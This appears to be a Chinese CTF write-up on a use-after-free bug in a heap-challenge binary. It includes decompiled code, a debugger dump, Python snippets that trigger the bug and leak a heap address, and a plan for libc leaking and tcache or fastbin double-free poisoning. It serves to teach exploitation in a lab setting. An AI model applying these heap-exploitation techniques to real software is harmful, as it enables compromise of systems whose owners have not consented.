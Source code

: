# UAF

![image-20200506223935280](/Users/migraine/Library/Application Support/typora-user-images/image-20200506223935280.png)

```c
int sub_EBE()
{
  puts("1. add");
  puts("2. delete");
  puts("3. show");
  puts("4. exit");
  return printf("your choice: ");
}
```



```c
  else
  {
    printf("size: ");
    v3 = sub_AA0();
    if ( v3 <= 0 || v3 > 111 )
    {
      puts("The size is wrong!");
    }
    else
    {
      memset(&s, 0, 0x20uLL);
      printf("remark: ", 0LL);
      sub_A3A((unsigned __int8 *)&s, 24);
      strncpy((char *)&unk_202060 + 48 * v2 + 16, &s, 0x28uLL); //char* 类型,存放remark
      qword_202068[6 * v2] = (unsigned __int8 *)malloc(v3);
      printf("data: ", &s);
      sub_A3A(qword_202068[6 * v2], v3); //char_8 类型，指向存放data的chunk
      *((_DWORD *)&unk_202060 + 12 * v2) = 0;//将free位设置为0
      puts("Success!");
    }
  }
```

存放chunk指针的数组结构如下

```c
pwndbg> x/20xg 0x564d8225a000+0x202060                                                                                       │0x564d8245c060: 0x0000000000000000<-- free      0x0000564d82d10260  -->chunk_0-->data                                                                              │0x564d8245c070: 0x0000000061616161<-- remark    0x0000000000000000                                                                                       │0x564d8245c080: 0x0000000000000000      				0x0000000000000000                                                                             │0x564d8245c090: 0x0000000000000000<-- free      0x0000564d82d10290  -->chunk_1-->data                                                                                             │0x564d8245c0a0: 0x0000000062626262<-- remark    0x0000000000000000
```

这里的uaf一开始居然没看出来，实际上这个UAF还是比较典型的。

free之后程序没有**删除指针**。每一次申请内存都会遍历数组结构，找到空闲的结构，我们只需要保护我们释放的指针的那块结构不被下一次申请覆盖，就可以构造出UAF。

```c
  for ( i = 0; i <= 0xF; ++i )
  {
    if ( !qword_202068[6 * (signed int)i] || *((_DWORD *)&unk_202060 + 12 * (signed int)i) == 1 )
    {
      v2 = i;
      break;
    }
  }
```

DEMO

```python
add(0x18,"aaa","AAAA")#此出产生的数组结构，为了chunk_c的数组结构留空白。
add(0x20,"bbb","BBBB")#chunk_b
delete(0)#chunk_a #之后的chunk_c的指针结构留位置
delete(1)#chunk_b #之后的chunk_c的data位置
add(0x20,"ccc","CCCC")
```

构造之后，发现我们同时有两块结构体都指向了free_chunk_b.

![lKhJXb](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/lKhJXb.png)

不过这个UAF貌似只能读不能写。。。似乎有一些鸡肋。不过可以写一个泄露堆地址的利用。

```python
add(0x18,"xxx","x"*0x10)
add(0x18,"yyy","y"*0x10)

add(0x20,"aaa","a"*0x10)
add(0x20,"bbb","b"*0x10)
delete(0)
delete(1)
delete(2)
delete(3)

add(0x20,"ccc","0")
show(0)
p.recv(5)
heap=u64(p.recv(6).ljust(8,b"\x00"))-0x230
print("heap="+hex(heap))
```

![h3ZuvJ](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/h3ZuvJ.png)

目前一个思路:泄露程序基地址->获得got表地址->泄露libc地址->tache poisoning

需要绕过的难点是如何修改tache的fd，不过可以考虑构造double free。但是libc-2.29中的tache已经加强了，很难直接double free。[参考](https://xz.aliyun.com/t/7292)

所以也许可以退而求其次，申请7个chunk，然后使用fastbin的double free。

